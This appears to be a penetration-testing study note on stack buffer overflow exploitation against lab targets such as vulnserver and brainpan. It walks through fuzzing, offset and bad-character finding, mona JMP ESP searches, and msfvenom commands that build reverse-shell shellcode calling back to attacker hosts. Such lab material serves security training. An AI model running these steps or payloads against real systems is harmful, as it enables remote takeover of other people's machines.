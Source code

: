 ### Buffer Overflows


#### The Process:
- 1 Spiking [finds the vulnerable command]
- 2 Fuzzing [attacks the specific command]
- 3 Finding the Offset [pattern_create.rb -l 9001]
- 4 Overwriting the EIP
- 5 Finding Bad Characters [ref: https://ostermiller.org/calc/asciism.html]
- 6 Finding the Right Module
- 7 Generating Shellcode
- 8 Root Access

-----

# BOF

- 1 Connect find commands
```bash
nc -nv $IP $PORT
```

- 2 [Spike](/1_method/3_Exploitation/1_Buffer_Overflows/2_STATS.spike)
check if vulnerable

- 3 [Fuzzing](/1_method/3_Exploitation/1_Buffer_Overflows/3_fuzzing_simple.py)
```bash
msf-pattern_create -l <length>
```
Record value on EIP, select ESP and click "Follow in Dump"  
```bash
msf-pattern_offset.rb -q <value> -l <length>  
```

- 4 [Find BadChars](https://github.com/cytopia/badchars)
- [badchars](/1_method/3_Exploitation/1_Buffer_Overflows/99_badchars.md)
- [badchars.py](/1_method/3_Exploitation/1_Buffer_Overflows/4_badchars.py)

Check bad characters after EIP. common bad characters are 0x00, 0x0A. 
Follow dump in ESP to check are there something missing after that.



```bash
ESP > Follow in dump
```


	- Remove badchars as they occur to find all badchars to exclude
	- "Step by step" - careful steps, shellcode will not work with badchars
		- better to be safe than sorry, remove chars if unsure
	- Step back and check if not gaining shell

- 5 Use !mona to find the offset after the overflow

Confirm EIP by adding "B" * 4 after the number of offset. Also, add a number of "C" to track the number of characters that can be added after EIP to confirm length of shellcode


[mona modules](https://github.com/corelan/mona)
```powershell
C:\Program Files(x86)\Immunity Inc\Immunity Debugger\PyCommands
```
Load modules [find FALSE FALSE FALSE FALSE in security for dll]
```bash
!mona modules
```

```bash
msf-masm_shell
nasm > JMP ESP
00000000  FFE4              jmp esp
```
```
!mona find -s "\xFF\xE4" -m essfunc.dll
```
note return addresses (which will then hold the shellcode) to push into EIP 
```
0x625011af
0x625011bb
0x625011c7
```
> Other

```bash

msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
JMP ESP = FFE4

# !mona jmp -r esp -cpb "\x00\x0A" << bad character
# !mona modules
# !mona find -s "\xff\xe4" -m brainpan.exe
```
check the value of the address by naviate to it.
Set breakpoint
Change "B" in EIP to the address of JMP ESP << little edian (reverse order)
e.g. 0x311712f3 >> "\xf3\x12\x17\x31"
Run again to check is the breakpoint triggered

shellcode / buffer in code is now:

```
"A" * [number of characters to EIP overwrite] + [JMP ESP location to push into EIP]
```

- 6 Follow address in Immunity debugger to test we are hitting the correct point
[offset.py](1_method/3_Exploitation/1_Buffer_Overflows/6_JMP_point.py)

```
->] 0x625011af
F2 # sets break point
```

- 7 Shellcode
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.101.13 LPORT=9001 EXITFUNC=thread -f c -a x86 -b "\x00" -e x86/shikata_ga_nai
```




**6. Find JMP ESP address in the system.**

**7. Add shellcode**
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.166 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
	Add a few \x90 before shellcode to avoid shellcode being modify

	msfvenom -p windows/shell_reverse_tcp LHOST=<IP>LPORT=<PORT> EXITFUNC=thread -f <Code Format> -a x86 -platform windows -b "\x00"
	msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP>LPORT=<PORT> EXITFUNC=thread -f <Code Format> -b "\x00"

**Bonus: Running out of shell code space?**
Use the front of payload instead
1. Is there any register points to the front of our payload? EAX, EDX?
2. Check JMP register address
	/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

	JMP EAX/EBX/ECX/EDX

3. Append the address as shell code.
4. Add payload to the front


